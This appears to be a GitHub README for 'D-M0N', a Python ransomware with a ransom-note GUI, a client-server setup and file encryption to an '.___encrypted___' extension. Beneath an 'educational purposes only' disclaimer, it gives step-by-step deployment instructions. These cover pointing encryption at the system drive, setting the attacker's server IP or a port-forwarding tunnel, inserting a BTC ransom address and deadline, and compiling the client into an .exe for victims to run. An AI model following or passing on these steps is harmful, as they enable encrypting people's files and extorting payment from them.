 # D-M0N RANSOMWARE - EXPERIMENTAL PYTHON RANSOMWARE

**D-M0N is a testing ransomware written in Python, for educational purposes only. Make sure you ONLY use it for vulnerabily testing or other ethical uses.**
**It has a graphical interface window on the 'victim's' side that the 'victim' can use to read the paying instructions (TRANSLATED IN 30+ LANGUAGES), pay the ransom, check the payment and more.**
**Encrypt files and change their extension to .___encrypted___**

**Feel free to download the files and change the code to add more options, improve compatibility... Pull requests are accepted.**

[image](https://ibb.co/7Q66d4G)

## How to use
To use this ransomware, you must have:
  - a socket server running on any machine using ```server.py```
  - the malware on the 'victim's' PC which is the file ```client.py``` (or a **.exe** version so it can be ran without Python installed)

The current ransomware file is safe in case of an unintentional launching on your computer. It will only encrypt a test directory that I use to test the malware on my PC.

Please follow these steps to make it runnable and install it on a PC:

**1.** Change ```server.py``` and ```client.py``` files so the program can run correctly and get all the files encrypted:
  - ```client.py```: change the ENCRYPTION_DIR constant to any functionnal directory like 'C:' or os.getenv("SystemDrive") to get main harddisk directory, example:
    ```python
    ENCRYPTION_DIR = os.getenv("SystemDrive")
    ```
- ```client.py```: change the SERVER_ADDRESS constant (localhost on port 33800 by default) to YOUR server IP address (host, port), example:
  ```python
  SERVER_ADDRESS = ('228.35.112.75', 5555)
  ```
  **You can also use alternative port forwarding solutions like [portmap.io](https://portmap.io) instead of typing your real public IP address.**
  
- ```server.py```: change the SERVER_ADDRESS constant second value (port) to the same port you used on the client file, example:
  ```python
  SERVER_ADDRESS = ("0.0.0.0", 33800)
  ```

**2.** Change other details like the BTC address (BTC_ADDRESS constant in ```client.py```), text of the client's window, ransom fees, graphical elements, ransom payout time in ```server.py``` (MAX_DAYS_TO_PAY constant) and even more, you can inspect the code to modify as much elements as you want.
  
**3.** Turn the ```client.py``` to a .exe file so the 'victim's computer' can run it without needing a Python interpreter. You can use ```pyinstaller```, but i recommend you to use [Nuitka](https://nuitka.net) 

